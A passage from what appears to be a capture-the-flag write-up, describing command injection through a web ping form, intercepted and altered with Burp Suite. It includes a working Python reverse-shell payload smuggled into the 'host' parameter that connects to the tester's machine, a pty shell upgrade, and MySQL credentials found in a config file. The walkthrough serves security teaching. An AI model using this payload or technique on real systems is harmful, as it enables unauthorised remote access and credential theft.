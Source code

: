 ![](https://i.imgur.com/LrizBe5.png)


Pinging 8.8.8.8, I can see that it actually runs the ping command and shows the output on webpage:  

![](https://i.imgur.com/s22xbtM.png)


I intercepted the request with Burp Suite to tamper command.

What was interesting is that I can choose whatever command I want to using Burp Suite: 

![](https://i.imgur.com/c0ddtJd.png)

I tried listing out home directory of the target and I can see that it works:
  
![](https://i.imgur.com/UROdxTS.png)

### Reverse Shell

With netcat listener running locally on my Kali machine, I ran the following payload through Burp Suite:

```python
command=python3&host=-c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](https://i.imgur.com/xIydAXZ.png)


Now I have shell as **www-data**:


![](https://i.imgur.com/zdefZkP.png)


Before I do anything, I first enhanced the shell: 

`python3 -c 'import pty; pty.spawn("/bin/bash")'
`

  

## Privesc www-data -> root
### Local Enumeration

Before running linpeas, I manually looked around the file system and on **/var/www/admin**, I saw **config.php** which seemed interesting:

![](https://i.imgur.com/jEsoANT.png)


  

It had MySQL credentials in it -> **admin:kEjdbRigfBHUREiNSDs**
  